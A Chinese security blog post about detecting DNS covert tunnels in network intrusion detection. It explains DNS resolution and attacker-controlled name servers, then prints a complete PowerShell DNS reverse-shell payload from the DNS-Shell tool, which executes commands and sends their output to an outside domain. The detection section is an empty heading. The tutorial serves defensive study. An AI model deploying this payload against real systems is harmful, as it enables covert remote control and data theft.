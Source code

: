 Title: NIDS 中的 DNS隐蔽隧道检测
Date: 2018-07-08 20:20
Modified: 2018-07-08 20:20
Category: 安全
Tags: nids
Slug: M5
Authors: nJcx
Summary: NIDS 中的 DNS隐蔽隧道检测~


#### DNS介绍

![icmp](../images/tcpip.gif)

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.

DNS协议报文格式

![dns](../images/dns-protocol-format.png)

通过wireshark 抓到的包：

![dns](../images/dnswireshark.png)

由于关于dns报文介绍太长，参考下面url 

[DNS协议详解及报文格式分析](https://www.cnblogs.com/davidwang456/articles/10660051.html)


![dns](../images/dnsq.jpeg)

关于DNS请求的方式如图，
具体可描述如下： 

	1. 主机先向本地域名服务器进行递归查询 
	
	2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询 
	
	3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址 
	
	4. 本地域名服务器向顶级域名服务器进行查询 
	
	5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址 
	 
	6. 本地域名服务器向权威服务器进行查询 
	
	7. 权限服务器告诉本地域名服务器所查询的主机的IP地址 
	
	8. 本地域名服务器最后把查询结果告诉主机 


![dns](../images/dnstun.jpeg)


如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器

	第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
	
	第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
	
	第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
	
	第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
	
	第五步：内部DNS服务器将响应结果返回给受控机


上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。

这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？

请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。

但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。


#### 测试


我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid

该域名的dns服务器位于  ns1.njcx.bid（公网ip：111.222.333.444）


受控机Windows7 ：  172.16.42.134

控制机 CentOS7：  111.222.333.444

我们用到的工具
[DNS-Shell](https://github.com/sensepost/DNS-Shell)，我们在 CentOS7 上面执行  python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell

```
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
    $str = $string.Substring($i*$Split,$Split);
    $rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur1;
};
if($remainder){
    $str = $string.Substring($len-$remainder);
    $i = $i +1
    $rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
   $c = Get-Random;
   Start-Sleep -s 3
   $u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
   $txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
   if ($txt -match 'NoCMD'){continue}
   elseif ($txt -match 'exit'){Exit}
   else{execDNS($txt)}
}   

```

![dnsshell](../images/dnsshell.png)

#### 检测